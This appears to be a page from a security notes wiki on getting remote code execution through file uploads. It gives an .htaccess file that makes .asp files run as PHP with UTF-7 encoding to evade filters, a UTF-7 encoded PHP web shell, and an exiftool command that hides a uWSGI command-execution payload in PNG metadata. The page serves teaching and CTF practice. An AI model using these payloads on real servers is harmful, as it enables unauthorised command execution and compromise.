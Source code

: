 When uploading files, rules are often set on the upload directory to prevent `.php` files from executing, or these extensions are simply blocked by a filter. In such cases, a file named `.htaccess` could configure an Apache server to change the behaviour of a directory.&#x20;

The main idea is to add another file extension that you _are_ allowed to upload to be able to execute PHP code, and you can even specify an encoding like UTF-7 to bypass filters. See the following writeup for an example of exploiting this from start to finish:

{% embed url="https://jorianwoltjer.com/blog/post/ctf/challenge-the-cyber-2022/file-upload-training-mission" %}
Writeup of challenge that blocks any PHP extension or `<?` string
{% endembed %}

<pre class="language-apacheconf" data-title=".htaccess"><code class="lang-apacheconf"><strong># Allow .asp files to be served as PHP
</strong>AddType application/x-httpd-php .asp
<strong># Set the encoding to UTF-7
</strong>php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
</code></pre>

{% code title="shell.asp" %}
```
+ADw-?php+ACA-system(+ACQ-+AF8-GET+AFs-+ACI-cmd+ACI-+AF0-)+ACA-?+AD4-
```
{% endcode %}

The repository below shows some more techniques using `.htaccess` file to get RCE:

{% embed url="https://github.com/wireghoul/htshells" %}
Repository containing various tricks to get RCE using .htaccess files alone
{% endembed %}

### uWSGI magic variables - dirty

{% embed url="https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html" %}
Overwriting `uwsgi.ini` files containing syntax to execute shell commands
{% endembed %}

Using the `@()` syntax, you can define uWSGI configuration anywhere in a file that executes system commands when loaded. Similar to the authorized keys, this can be put into PNG metadata, for example, which will include it in a valid PNG image:

```bash
exiftool -Comment=$'\n[uwsgi]\nfoo = @(exec://id > /tmp/pwned)\n' example.png
```

Payloads can be locally tested using the following command:

```bash
uwsgi --ini example.png
```

When written to the server, it may take some time before the payload is executed. If the server is configured to auto-reload using the `py-auto-reload =` configuration variable it may happen automatically, but otherwise, you need to either force a restart by crashing the application or just wait until a server admin does it for you.
